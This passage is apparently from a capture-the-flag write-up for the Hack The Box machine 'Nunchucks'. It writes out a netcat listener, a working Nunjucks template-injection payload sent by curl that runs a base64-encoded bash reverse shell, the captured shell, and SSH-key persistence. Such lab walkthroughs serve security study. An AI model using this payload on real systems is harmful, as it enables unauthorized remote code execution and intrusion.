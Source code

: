 ### Preparation

The goal is to obtain a reverse shell.

First, I'll setup a listener to receive the shell.

```sh
❯ rlwrap nc -lvnp "9001"
```

We know that Nunchucks is using the Express framework, but we don't know which
template engine it's using.

If we search online for it, we see that Express actually supports
[a lot of them](https://expressjs.com/en/resources/template-engines.html)!

Fortunately, one of them is named `Nunjucks`... considering it's close to the
name of the box, it's safe to assume that it's the template engine used by the
website!

I'll select a payload from
[HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#nunjucks)
to exploit this SSTI.

However, we still need to come up with a payload to use with the SSTI! I want to
obtain a reverse shell, so I'll choose the Base64 encoded version of the 'Bash
-i' payload from [RevShells](https://www.revshells.com/) configured to obtain a
`/bin/bash` shell.

I'll save it as the `BASE64_REVSHELL_PAYLOAD` shell variable.

### Exploitation

Let's abuse the SSTI we identified to obtain a reverse shell.

```sh
❯ curl -k -s  -H "Content-Type: application/json" "https://store.nunchucks.htb/api/submit" -X "POST" -d "{\"email\":\"{{range.constructor(\\\"return global.process.mainModule.require('child_process').execSync('/bin/echo $BASE64_REVSHELL_PAYLOAD | /usr/bin/base64 -d | /bin/bash -i')\\\")()}}\"}"
```

If we check our listener:

```
connect to [10.10.14.10] from (UNKNOWN) [10.10.11.122] 43200
<SNIP>
david@nunchucks:/var/www/store.nunchucks$
```

It caught the reverse shell!

### Spawning a pty & establishing persistence

Let's use SSH to spawn a pty and to establish persistence.

Our home folder doesn't contain a `.ssh` folder, so I'll create one. Then I'll
create a private key, and I'll add the corresponding public key to
`authorized_keys`. Finally, I'll connect over SSH to Nunchucks as `david`.
